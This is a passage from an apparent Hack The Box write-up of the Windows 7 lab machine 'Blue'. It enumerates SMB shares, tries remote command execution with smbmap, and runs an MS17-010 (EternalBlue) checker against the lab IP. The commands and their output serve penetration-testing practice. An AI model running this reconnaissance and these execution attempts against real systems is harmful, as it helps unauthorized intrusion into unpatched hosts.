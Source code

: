 Next, we will move on to enumerate the Users directory. From the Users directory, we are able to find a Public and Default directory. Unforunately, both Public and Default directory are empty.

```
┌──(kali㉿kali)-[~]
└─$ smbclient //10.10.10.40/Users
Enter WORKGROUP\kali's password: 
Try "help" to get a list of possible commands.
smb: \> ls
  .                                  DR        0  Fri Jul 21 02:56:23 2017
  ..                                 DR        0  Fri Jul 21 02:56:23 2017
  Default                           DHR        0  Tue Jul 14 03:07:31 2009
  desktop.ini                       AHS      174  Tue Jul 14 00:54:24 2009
  Public                             DR        0  Tue Apr 12 03:51:29 2011

                8362495 blocks of size 4096. 4212836 blocks available
smb: \> ls Default
  Default                           DHR        0  Tue Jul 14 03:07:31 2009

                8362495 blocks of size 4096. 4212836 blocks available
smb: \> ls Public
  Public                             DR        0  Tue Apr 12 03:51:29 2011

                8362495 blocks of size 4096. 4212836 blocks available
smb: \> 
```

Next, let us try to execute commands using smbmap. Unfortunately, we are unable to execute any commands using smbmap.

```
┌──(kali㉿kali)-[~]
└─$ smbmap -u null -p "" -H 10.10.10.40 -P 445 -x "ipconfig /all"                                                1 ⚙
                                                                                                                     
┌──(kali㉿kali)-[~]
└─$ smbmap -u null -p "" -H 10.10.10.40 -P 445 -x "whoami" 
```

### CVE-2017-0143

From the nmap output, we realize that this machine is vulnerable to CVE-2017-043, which is also the infamous Eternal Blue exploit used in WannaCry ransomware.

Next, we will execute checker.py to find for accessible named pipes. However, we are unable to find any accessible named pipes but we would require access to accessible named pipes for EternalBlue exploit to work.

```
┌──(HTB2)─(kali㉿kali)-[~/Desktop/MS17-010]
└─$ python checker.py 10.10.10.40    
Trying to connect to 10.10.10.40:445
Target OS: Windows 7 Professional 7601 Service Pack 1
The target is not patched

=== Testing named pipes ===
spoolss: STATUS_ACCESS_DENIED
samr: STATUS_ACCESS_DENIED
netlogon: STATUS_ACCESS_DENIED
lsarpc: STATUS_ACCESS_DENIED
browser: STATUS_ACCESS_DENIED
```
